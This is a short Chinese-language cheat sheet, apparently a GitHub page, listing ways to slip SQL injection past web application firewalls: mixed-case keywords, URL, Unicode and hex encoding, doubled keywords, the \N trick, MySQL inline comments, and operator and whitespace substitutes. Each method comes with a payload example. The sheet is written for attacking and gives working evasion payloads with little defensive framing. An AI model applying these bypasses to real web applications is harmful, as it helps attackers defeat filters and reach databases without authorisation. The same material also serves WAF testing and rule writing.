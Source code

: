 # 关键词大小写绕过

```
    有的WAF因为规则设计的问题，只匹配纯大写或纯小写的字符，对字符大小写混写直接无视，这时，我们可以利用这一点来进行绕过

    举例： union select ---> unIOn SeLEcT
```

# 编码绕过

```
    针对WAF过滤的字符编码，如使用URL编码，Unicode编码，十六进制编码，Hex编码等.

    举例：union select 1,2,3# =union%0aselect 1\u002c2,3%23
```

# 双写绕过

```
    部分WAF只对字符串识别一次，删除敏感字段并拼接剩余语句，这时，我们可以通过双写来进行绕过。

    举例：UNIunionON ，SELselectECT anandd
```

# 换行(\N)绕过

```
    举例：select * from admin where username = \N union select 1,user() from admin
```

# 注释符内联注释绕过：

```


    union selecte =/*!union*/ select

    注释符里感叹号后面的内容会被mysql执行。
```

# 同义词替换

```
    and=&&

    or=||

    =(等于号)=<、>

    空格不能使用=%09,%0a,%0b,%0c,%0d,%20,%a0等

    注：%0a是换行也可以替代空格
```
